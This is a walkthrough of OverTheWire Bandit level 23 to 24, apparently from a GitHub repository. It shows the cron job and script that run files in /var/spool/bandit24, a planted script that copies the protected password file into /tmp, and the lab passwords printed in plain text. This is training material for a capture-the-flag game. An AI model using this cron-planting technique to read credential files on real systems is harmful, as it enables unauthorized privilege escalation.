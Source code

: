 # level23 -> level24


[http://http://overthewire.org/wargames/bandit/bandit24.html](http://http://overthewire.org/wargames/bandit/bandit24.html)

-

    ssh bandit23@bandit.labs.overthewire.org

-

    bandit23@bandit.labs.overthewire.org's password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n


-
    bandit23@melinda:/tmp/sliitwar23$ cd /etc/cron.d/

    bandit23@melinda:/etc/cron.d$ ls -la

-

    total 100
    drwxr-xr-x   2 root root 4096 May  3 12:32 .
    drwxr-xr-x 108 root root 4096 May 27 11:11 ..
    -rw-r--r--   1 root root  102 Feb  9  2013 .placeholder
    -r--r-----   1 root root   46 Nov 14  2014 behemoth4_cleanup
    -rw-r--r--   1 root root  355 May 25  2013 cron-apt
    -rw-r--r--   1 root root   61 Nov 14  2014 cronjob_bandit22
    -rw-r--r--   1 root root   62 Nov 14  2014 cronjob_bandit23
    -rw-r--r--   1 root root   61 May  3 12:32 cronjob_bandit24
    -rw-r--r--   1 root root   62 May  3 12:32 cronjob_bandit24_root
    -r--r-----   1 root root   47 Nov 14  2014 leviathan5_cleanup
    -rw-------   1 root root  233 Nov 14  2014 manpage3_resetpw_job
    -rw-r--r--   1 root root   51 Nov 14  2014 melinda-stats
    -rw-r--r--   1 root root   54 Nov 14  2014 natas-session-toucher
    -rw-r--r--   1 root root   49 Nov 15  2014 natas-stats
    -r--r-----   1 root root   47 Nov 14  2014 natas25_cleanup
    -r--r-----   1 root root   47 Nov 14  2014 natas26_cleanup
    -r--r-----   1 root root   43 Nov 15  2014 natas27_cleanup
    -rw-r--r--   1 root root  510 Oct 29  2014 php5
    -rw-r--r--   1 root root   58 Nov 14  2014 semtex0-32
    -rw-r--r--   1 root root   58 Nov 14  2014 semtex0-64
    -rw-r--r--   1 root root   59 Nov 14  2014 semtex0-ppc
    -rw-r--r--   1 root root   35 Nov 14  2014 semtex5
    -rw-r--r--   1 root root  396 Nov 10  2013 sysstat
    -rw-r--r--   1 root root   29 Nov 14  2014 vortex0
    -rw-r--r--   1 root root   30 Nov 14  2014 vortex20

-

    bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24

-

    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

-
    
    bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh

-

    #!/bin/bash
    
    myname=$(whoami)
    
    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
    for i in * .*;
    do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 "./$i"
    rm -f "./$i"
    fi
    done


-

Creating the bash script (.sh)

      bandit23@melinda:$ cd tmp

-

      bandit23@melinda:/tmp$ mkdir sliitwar23

-

    bandit23@melinda:/tmp/sliitwar23$ cd sliitwar23

-

    bandit23@melinda:/tmp/sliitwar23$ nano jump23.sh

-

    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/sliitwar23/pass.txt


`Ctrl+X` to exit press `Y` to save

    
-

    bandit23@melinda:/tmp/sliitwar23$ chmod 777 jump23.sh
    
-


    bandit23@melinda:/tmp/sliitwar23$ cp jump23.sh /var/spool/bandit24

-


Now wait for a 1 Min - for the cron to run

-
 
    bandit23@melinda:/tmp/sliitwar23$ ls /var/spool/bandit24

-

    jump23.sh

-

    bandit23@melinda:/tmp/sliitwar23$ ls /var/spool/bandit24

-


    bandit23@melinda:/tmp/sliitwar23$ ls

-

    jump23.sh  pass.txt

-

    bandit23@melinda:/tmp/sliitwar23$ cat pass.txt

-

    UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

-


![](http://i.imgur.com/z79COrb.png)

![](http://i.imgur.com/hP9RBkh.png)




    